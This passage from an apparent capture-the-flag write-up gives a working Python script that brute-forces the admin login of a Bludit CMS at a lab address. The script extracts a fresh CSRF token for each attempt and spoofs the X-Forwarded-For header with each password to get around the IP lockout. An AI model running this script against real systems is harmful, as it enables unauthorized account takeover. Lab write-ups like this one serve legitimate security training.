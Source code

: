 

#### Update Script

The POC script from Rastating proves the concept, but it isn't set up to
exploit. I'll make a bunch of changes, having it load my wordlist as an
arg from the command line, using `\r` to print status but on the same
line so it doesn't blast my terminal, removing the dummy passwords. My
script looks like:



    #!/usr/bin/env python3
    import re
    import requests
    import sys

    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'

    with open(sys.argv[1], 'r') as f:
        wordlist = [x.strip() for x in f.readlines()]

    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

        print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)

        headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }

        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }

        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

        if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print('\rSUCCESS: Password found!' + 50*" ")
                print(f'Use {username}:{password} to login.')
                print()
                break



When I run it, it will show whatever password is being attempted at the
moment, eventually finding one and printing that and exiting. It takes
about 16 seconds:
